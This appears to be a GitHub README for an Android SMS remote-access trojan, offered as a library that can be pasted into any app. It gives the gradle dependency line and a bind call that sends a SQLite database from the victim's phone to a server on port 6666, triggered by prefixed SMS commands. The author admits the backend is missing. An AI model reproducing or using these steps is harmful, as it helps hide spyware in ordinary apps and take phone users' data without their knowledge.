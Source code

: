 # LOFL BOT
### A 3-year-old injectable SMS RAT. No backend. Therefore, the spyware remote commands won't work. I learned Android pentesting with library. I'm really embarrassed of the code and design. I removed this after a Nigerian NSA officer starred and followed me. This was my first RAT. Iwanteed to leave it to my child but it's for my father.

### Guess what all you social elitists, hackers, developers, engineers, crackers, terrorists, CandroidOgNinja fans, Candroid fans, Chris Basinger's fans, Evil Threads fans, family members, and federal agents. I've managed to hack the Android SMS module! By doing so, I've extended it's functionality to allow for SMS messages to only travel through the notification drawer without persistence. I was planning on adding media functionality as well. However , my life had to go on. There is a self-destructible SMS based notification messenger app. Like snapchat in your drawer. It's hidden in a git branch.

### Yeah baby. I allow you to copy and paste this import into any app in the world! And guess what! Then you just say "LOFL" and then guess what haha it becomes an SMS RAT.

```gradle
implementation 'com.github.evilthreads669966:lofl:1.0'
```


 
 1. Put the following line of code in oncreate of your mainactivity class
 
 LoflActivity.bind(this,"10.0.2.2", "123", this.getClass().getName());
 
 the first parameter is the server address which is responsible for receiving a sqlite database file from the users phone.
 
 the second parameter is what you will put at the start of your sms commands to tell the app that 'this is a command'
 
 the third paremeter is to let lofl know what your launch activity is
 
 the database is sent over port 6666
